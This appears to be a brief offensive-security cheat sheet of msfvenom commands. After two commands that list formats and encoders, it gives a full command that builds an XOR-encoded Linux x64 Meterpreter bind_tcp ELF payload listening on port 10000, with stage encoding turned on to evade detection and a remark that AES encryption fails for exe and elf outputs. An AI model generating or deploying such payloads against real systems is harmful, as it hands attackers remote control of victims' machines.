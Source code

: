# Lists
```sh
msfvenom --list formats
msfvenom --list encoders
```

# Meterpreter - Linux - bind_tcp
```sh
# --encrypt aes256 does not work for exe and elf
msfvenom -a x64 -e x64/xor_dynamic --platform Linux -p linux/x64/meterpreter/bind_tcp -f elf -o bind_tcp LPORT=10000 EnableStageEncoding=true
```
